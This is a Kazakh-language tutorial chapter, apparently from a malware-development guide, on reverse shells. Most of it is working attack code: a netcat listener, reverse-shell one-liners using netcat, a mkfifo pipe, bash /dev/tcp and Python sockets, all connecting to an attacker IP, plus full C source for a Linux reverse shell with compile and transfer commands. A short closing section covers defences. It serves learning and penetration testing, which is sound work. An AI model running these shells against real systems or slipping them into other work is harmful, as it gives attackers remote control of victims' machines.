





\newpage
\subsection{3. кері шелл - reverse shells}

﷽

{height=400px}    

Ең алдымен, біз зиянды бағдарлама әзірлеуде маңызды рөл атқаратын кері шелл (reverse shell) ұғымын қарастырамыз, және практикалық мысалдарды талқылаймыз.      

### кері шелл (reverse shell) дегеніміз не??

Кері шелл немесе connect-back shell деп те аталады - бұл мақсатты құрылғыдан шабуылдаушы машинаға қайта қосылу арқылы енгізілетін қашықтағы шелл. Осылайша, шабуылдаушы машинада мақсатты шелл пайда болады. Бұл көбінесе эксплуатация процесінде қашықтағы "құрбан" машинаны басқару үшін қолданылады.     


Кері шелл жиі сыртқа шығатын жалпы порттарды пайдаланады, мысалы:
`80, 443, 8080` және т.б.     

Кері шелл әдетте мақсатты құрылғы брандмауэр арқылы белгілі бір порттан кіретін қосылымдарды бұғаттаған кезде қолданылады. Бұл шектеуді айналып өту үшін red team және пентестерлер кері шеллдерді қолданады.     

Бірақ мұнда бір мәселе бар. Бұл шабуылдаушының басқару серверін ашып береді және оны мақсатты желінің қауіпсіздік мониторингі анықтап қоюы мүмкін.     

Кері шелл алу үшін үш қадам бар.     
Біріншіден, шабуылдаушы мақсатты жүйедегі немесе желідегі осалдықты
пайдаланып, кодты орындауға мүмкіндік алады.     
Содан кейін ол өзінің машинасында тыңдаушы (listener) іске қосады.     
Соңында ол осал жүйеге кері шелл енгізіп, осалдықты пайдаланады.    

Тағы бір жайт. Симуляция немесе лабораторияда емес, нағыз шынайы кибершабуылдарда кері шелл әлеуметтік инженерия арқылы да алынады. Мысалы, фишингтік хат немесе зиянды вебсайт арқылы жергілікті жұмыс станциясына орнатылған зиянды бағдарлама командалық серверге қосылым ашып, хакерлерге кері шеллға қосылу мүмкіндігін бере алады.      

{width="80%"}

Бұл посттың мақсаты - мақсатты хосттағы немесе желідегі осалдықты эксплуатациялау емес, керісінше кодты орындауға мүмкіндік беретін осалдық табу идеясын көрсету.    

Құрбан жүйесінде орнатылған операциялық жүйеге және жұмыс істеп тұрған сервистерге байланысты кері шелл әртүрлі болуы мүмкін: `php, python, jsp` және т.б.     

***

### тыңдаушы (listener)

Қарапайымдылық үшін бұл мысалда құрбан кез келген порт арқылы шығыс (outcome) қосылым жасауға рұқсат береді (iptables әдепкі ережесі). Біздің жағдайда тыңдаушы порт ретінде `4444`-ті пайдаланамыз. Әрине, оны қалағаныңызша басқа портқа өзгертуге болады. Тыңдаушы `TCP/UDP` қосылымдарын аша алатын кез келген бағдарлама/утилита болуы мүмкін. Көп жағдайда мен `nc` немесе `netcat` қолданамын.     

```bash
nc -lvp 4444
```

Мұнда `-l` тыңдау, `-v` егжей-тегжейлі, `-p` барлық интерфейсте `4444`
порт. Сондай-ақ DNS орнына тек `IP` қолдану үшін `-n` параметрін қосуға
болады.     

    

***

### кері шеллді іске қосу (мысалдар)

Практикалық эксперименттің қарапайымдылығы болу үшін, мысалдағы мақсат "құрбан" - linux машинасы болсын.    

**1. netcat**   

іске қосайық:    

```bash
nc -e /bin/sh 10.9.1.6 4444
```

мұндағы `10.9.1.6` - шабуылдаушы машинасының IP-адресі, ал `4444` - тыңдаушы порт.   

{width="80%"}

**2. netcat (-e параметрінсіз)**    

Жаңа linux операциялық жүйелерінде әдетте `GAPING_SECURITY_HOLE` өшірілген классикалық netcat орнатылады, сондықтан онда `-e` опциясы жоқ.      

Бұл жағдайда құрбан машинада келесі команда арқылы іске қосылады:     

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

{width="80%"}

Мұнда алдымен `mkfifo` командасымен `p` атты атаулы канал (FIFO) жасадым. Бұл канал шелл енгізу/шығаруды бағыттау үшін қолданылады. Мен оны `/tmp` ішінде жасадым, себебі кез келген қолданушы (linux операциялық жүйесінде) ол жерге жаза алады.     

**3. bash**   
Бұл ескі debian-операциялық жүйесіне негізделген операцияқ жүйелерде жұмыс істемейді.   
іске қосу:    

```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

{width="80%"}

**4. python**

Жартылай интерактивті шелл жасау үшін python мына команданы қолданыңыз:

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

{width="80%"}

Көбірек мысалдар: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

### C тілінде кері шелл жасау

Маған ұнайтын бөлік. Себебі мен бағдарламалау саласынан келгендіктен, кейде "дөңгелекті қайта ойлап табуды" жақсы көремін. Бұл арқылы жаңа нәрселерді үйренуге болады.    

Linux (мақсатты машина) үшін кері шелл жазамыз.       

`shell.c` файлын құрыңыз:     

```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Компиляциялау:     

```bash
gcc -o shell shell.c -w
```

{width="80%"}

*32-биттік linux үшін:* `gcc -o shell -m32 shell.c -w`     

Файлды құрбан машинаға тасымалдау керек. Бұл эксплуатациядан кейінгі
маңызды қадамдардың бірі.     

Хакердің "швейцариялық пышағы" болып саналатын `netcat` бағдарламасын қолданамыз.     

құрбан машинада:

```bash
nc -lvp 4444 > shell
```

шабуылдаушы машинада:    

```bash
nc 10.9.1.19 4444 -w 3 < shell
```

{width="80%"}

тексеру:    

```bash
./shell
```

{width="80%"}

[Github-тағы код](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### қорғаныс шаралары

Өкінішке орай, кері шеллдерді толықтай бұғаттау мүмкін емес. Егер сіз әдейі оларды қашықтықтан әкімшілеу үшін қолданбасаңыз, кез келген кері шелл қосылымдары зиянды болуы ықтимал. Эксплуатация қаупін азайту үшін тек белгілі IP-адрестер мен порттарға рұқсат беріп, қалғандарын жауып қоюға болады. Бұл үшін sandbox немесе контейнер қолдану ұсынылады.     